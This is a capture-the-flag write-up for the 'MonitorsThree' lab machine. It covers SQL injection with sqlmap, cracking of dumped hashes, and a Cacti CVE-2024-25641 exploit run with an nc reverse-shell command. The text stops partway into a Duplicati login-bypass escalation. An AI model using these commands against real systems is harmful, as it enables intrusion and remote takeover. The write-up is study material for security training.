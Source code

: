 ```yaml
---
layout: post
title: "MonitorsThree"
date: 2024-10-04 10:04:00 +0000
categories: Writeup
---
```

MonitorsThree Writeup by <span style="color:yellow">jest</span>.

# Scan

```
Nmap scan report for 10.10.11.30
Host is up (0.025s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10
| ssh-hostkey:
|   256 86:f8:7d:6f:42:91:bb:89:72:91:af:72:f3:01:ff:5b (ECDSA)
|_  256 50:f9:ed:8e:73:64:9e:aa:f6:08:95:14:f0:a6:0d:57 (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://monitorsthree.htb/
8084/tcp filtered websnp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

&nbsp;

# SQL Injection

There is SQL injection on the forgot password page on the monitorsthree site.:

![image](https://github.com/user-attachments/assets/a4fae5cc-f532-49bb-8228-d0d3068cd8f1)

Verified with the input '.

It looks to be blind.

I captured the request sent via burpsuite and put it into a txt file, then used sqlmap to dump the contents of the database:

![image](https://github.com/user-attachments/assets/406a8e21-219c-4911-a3a6-319dfd25b8ea)


This allowed me to acquire 4 hashes:

```
sqlmap -r post.txt --dump
```

```
dthompson@monitorsthree.htb:633b683cc128fe244b00f176c8a950f5
janderson@monitorsthree.htb:1e68b6eb86b45f6d92f8f292428f77ac
mwatson@monitorsthree.htb:c585d01f2eb3e6e1073e92023088a3dd
admin@monitorsthree.htb:31a181c8372e3afc59dab863430610e8
```

We can try cracking the admin@monitorsthree credential:
```sh
hashcat -m 0 -a 0 31a181c8372e3afc59dab863430610e8 /usr/share/wordlists/rockyou.txt
```
This will provide a password.

&nbsp;

# Cacti

I found a cacti subdomain:

![image](https://github.com/user-attachments/assets/027392ce-169d-4c77-88b8-8cf7f41c7102)

Add this to /etc/hosts.

We now have access to cacti with the admin credentials:

![image](https://github.com/user-attachments/assets/380380ca-0ca6-44a3-8da8-23b43181b2a3)


Cacti 1.2.26 suffers from rce via import template.

Cacti doesn't validate file names given through the package import feature, allowing it to overwrite files on the system(even outside the cacti base path, as path traversal isn't filtered).

More can be found <a href="https://github.com/Cacti/cacti/security/advisories/GHSA-7cmj-g5qc-pj88">here.</a>

I used an automated attack found <a href="https://github.com/StopThatTalace/CVE-2024-25641-CACTI-RCE-1.2.26">here.</a>

```python
my-venv/bin/python3 CVE-2024-25641.py \
    --user admin \
    --pass greencacti2001 \
    --cmd "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.11 666 >/tmp/f" \
    http://cacti.monitorsthree.htb/cacti/
```
After setting up a listener, this provides access to www-data on the machine.


&nbsp;

# Privilege Escalation

With a shell as www-data, I can see some ports open internally:

```
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:8084            0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:8200          0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:46525         0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN
tcp6       0      0 :::80                   :::*                    LISTEN
tcp6       0      0 :::22                   :::*                    LISTEN
udp        0      0 127.0.0.53:53           0.0.0.0:*
udp        0      0 0.0.0.0:68              0.0.0.0:*
```

We can forward 8200 so it is reachable from our machine.

After port forwarding 8200 using chisel, we are presented with a login page:

![image](https://github.com/user-attachments/assets/82c5794a-5245-46f8-8c88-d5242a184f4d)

Duplicati is a backup client, however in one version is vulnerable to login bypass as it allows use for the db server passphrase to authenticate instead of the actual intended password.
This is a big problem as with access to the system and sqllite files, we can craft the passphrase to gain access.

I found the sqllite files in the /opt directory, and then moved them onto my machine.

Then installed sqlite browser, which should allow us to inspect the duplicati-server.sqlite db file.

